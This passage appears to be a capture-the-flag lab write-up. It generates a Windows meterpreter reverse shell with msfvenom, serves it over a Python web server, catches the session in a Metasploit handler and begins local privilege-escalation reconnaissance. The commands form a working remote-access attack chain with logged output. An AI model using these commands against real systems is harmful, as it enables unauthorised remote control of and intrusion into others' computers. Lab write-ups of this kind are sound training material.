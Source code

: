 First start your handler in metasploit:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:1234 
~~~

Use `msfvenom` to generate a reverse shell executable, and start the web server.

~~~
$ /opt/metasploit-framework/bin/msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.**.** lport=1234 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

From Windows, download the executable using Internet Explorer (http://10.9.**.**:8000/shell.exe) and execute it.

Now, back to Metasploit, you should have a meterpreter:

~~~
[*] Sending stage (176195 bytes) to 10.10.122.198
[*] Meterpreter session 1 opened (10.9.**.**:1234 -> 10.10.122.198:49199) at 2020-05-19 21:02:13 +0200
~~~

Put it in background and check the exploits:

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x86/windows  TCM-PC\user @ TCM-PC  10.9.**.**:1234 -> 10.10.122.198:49199 (10.10.122.198)

msf5 post(multi/recon/local_exploit_suggester) > set session 1
~~~